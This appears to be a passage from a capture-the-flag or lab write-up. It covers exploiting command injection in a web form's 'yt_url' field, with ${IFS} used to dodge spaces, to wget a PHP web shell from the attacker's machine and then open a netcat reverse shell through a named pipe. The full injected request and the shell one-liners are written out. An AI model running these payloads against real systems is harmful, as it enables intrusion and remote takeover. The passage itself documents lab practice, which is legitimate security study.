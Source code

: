 To upload I used the python simple HTTP server to expose the `php_web_shell.php` file.\
So I used the previously validated RCE vector to perform a `wget` on the target.
```
$ wget http://192.168.1.189:8787/php_web_shell.php
      ^
      |
      |___ Replacing spaces for ${IFS} to send it in request body

$ wget${IFS}http://192.168.1.189:8787/php_web_shell.php
```

The intercepted request will be poisoned as follow:
```
POST / HTTP/1.1
Host: 192.168.1.183
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://192.168.1.183
Connection: close
Referer: http://192.168.1.183/

yt_url=--exec<$(wget${IFS}http://192.168.1.189:8787/php_web_shell.php)
```

Now to use PHP Web Shell we need just access `http://192.168.1.183/php_web_shell.php`.

### Reverse Shell

First I attempt to use `netcat` to get a reverse shell, but target's `netcat` doesn't have `-e` option.
```
nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
[-P proxy_username] [-p source_port] [-q seconds] [-s source]
[-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
[-x proxy_address[:port]] [destination] [port]
```

So I ran `netcat` using file descriptor mechanism to get remote shell connection.\
\
Listening `4545` port on my host
```
$ nc -lvp 4545
listening on [any] 4545 ...
```

Running bind connection on target through PHP WEB Shell
```
$ mknod /tmp/backpipe p
$ /bin/sh 0</tmp/backpipe | nc 192.168.1.189 4646 1>/tmp/backpipe
```

